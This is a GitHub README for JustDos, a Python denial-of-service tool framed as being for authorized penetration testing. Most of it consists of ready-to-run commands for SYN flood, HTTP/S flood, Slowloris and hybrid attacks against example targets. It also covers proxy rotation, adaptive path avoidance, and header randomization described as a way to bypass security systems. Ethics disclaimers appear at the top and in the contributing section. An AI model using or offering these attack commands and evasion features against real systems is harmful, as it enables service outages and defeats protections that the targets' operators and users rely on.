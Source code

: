 <p align="center">
    <img src="./docs/JustDos.png" alt="justdos"/>
</p>

<h1 align="center">JustDos - Powerful Denial-of-Service Tool</h1>
<p align="center">
    <i>"Break the balance, and find the weak point."<i>
</p>

<p align="center">
    <a href="#">
        <img alt="JustDos last commit" src="https://img.shields.io/github/last-commit/Rafacuy/JustDos/main?color=green&style=for-the-badge">
    </a>
    <a href="#">
        <img alt="JustDos License" src="https://img.shields.io/github/license/Rafacuy/JustDos?color=orange&style=for-the-badge">
    </a>
    <a href="https://github.com/Rafacuy/JustDos/issues">
        <img alt="MatrixTM issues" src="https://img.shields.io/github/issues/Rafacuy/JustDos?color=purple&style=for-the-badge">
    </a>
</p>

<h2 align="center">Introduction</h2>
JustDos is an advanced Denial-of-Service (DoS) testing tool designed for ethical hacking and penetration testing. This powerful framework enables security professionals to evaluate system resilience against various DoS attack vectors in controlled environments. The tool features multiple attack modes, adaptive strategies, and realistic traffic simulation to help identify vulnerabilities in network infrastructure and web applications.

\
**Key Features:**
- Layer 7 attacks: HTTP/S Flood, Slowloris
- Layer 4 attacks: SYN Flood
- Hybrid attacks: Killer (Slowloris + HTTP Flood)
- Adaptive attack planning to avoid blocked paths
- Realistic header randomization to bypass security systems
- Proxy support and management
- Detailed performance benchmarking
- Ethical confirmation prompts before execution

**Warning:** This tool is strictly for authorized penetration testing and educational purposes. Unauthorized use against systems without explicit permission is illegal and unethical.

## Installation

### Prerequisites
- Python 3.8+
- Linux/macOS (Windows support limited)
- Root privileges required for SYN Flood attacks

### Setup
```bash
# Clone the repository
git clone https://github.com/rafacuy/JustDos.git
cd JustDos

# Install dependencies
pip install -r requirements.txt
```

### Dependencies
- `httpx`
- `termcolor`
- `pyfiglet`
- `scapy` (for SYN Flood)

## Usage

### Basic Command Structure
```bash
python3 main.py [attack_mode] [target] [port] [options]
```

### Attack Modes
1. **SYN Flood (Layer 4):**
   ```bash
   sudo python3 main.py syn 192.168.1.10 80 \
     -p $(nproc) \
     -d 60 \
     -r 500
   ```
   - `-p`: Number of parallel processes
   - `-d`: Attack duration (seconds)
   - `-r`: Packet rate limit per process

2. **HTTP/S Flood (Layer 7):**
   ```bash
   python3 main.py http example.com 443 \
     -w 100 \
     -d 120 \
     --https \
     --adaptive \
     --use-proxies \
     --proxy-file proxies.txt
   ```
   - `-w`: Concurrent async workers
   - `--https`: Use HTTPS
   - `--adaptive`: Enable adaptive path avoidance
   - `--use-proxies`: Enable proxy rotation

3. **Slowloris Attack:**
   ```bash
   python3 main.py slowloris example.com 80 \
     -c 1000 \
     -i 5 \
     -d 300
   ```
   - `-c`: Simultaneous connections
   - `-i`: Keep-alive header interval (seconds)

4. **Hybrid Killer Attack:**
   ```bash
   python3 main.py killer example.com 80 \
     -c 500 \
     -i 10 \
     -w 75 \
     -d 180 \
     --https
   ```

### Key Features in Action
- **Adaptive Strategy Planner:** Dynamically avoids blocked paths using:
  ```python
  planner = StrategyPlanner()
  if await planner.is_path_dangerous(path): 
      continue
  ```
- **Realistic Traffic Simulation:** Generates browser-specific headers:
  ```python
  header_factory = HeaderFactory(pool_size=2000)
  headers = header_factory.get_headers()
  ```
- **Proxy Management:** Rotates proxies automatically:
  ```python
  proxy_pool = AdaptiveProxyPool(proxies, logger)
  proxy = await proxy_pool.get_proxy()
  ```

## Modules Overview
| Module | Purpose |
|--------|---------|
| `core.py` | Main attack logic and orchestration |
| `planner.py` | Adaptive strategy planning |
| `randomizer.py` | HTTP header randomization |
| `benchmark.py` | Performance metrics and reporting |
| `logger.py` | Request logging to `justdos_attack.log` |
| `proxy_manager.py` | Proxy rotation and management |
| `crawler.py` | Target path discovery |

## Contributing
Contributions are welcome! Please follow these guidelines:
1. Fork the repository and create your feature branch
2. Ensure code quality with type hints and docstrings
3. Include tests for new functionality
4. Update relevant documentation
5. Submit a pull request with detailed description

**Ethical Guidelines:**
- All contributions must adhere to ethical hacking principles
- Never implement features designed for illegal use
- Maintain focus on defensive security testing

Please read the [LEGALLITY](./LEGALLITY.md) for more details.

## License
This project is licensed under the GPL-3.0 License. See [LICENSE](LICENSE) for details.
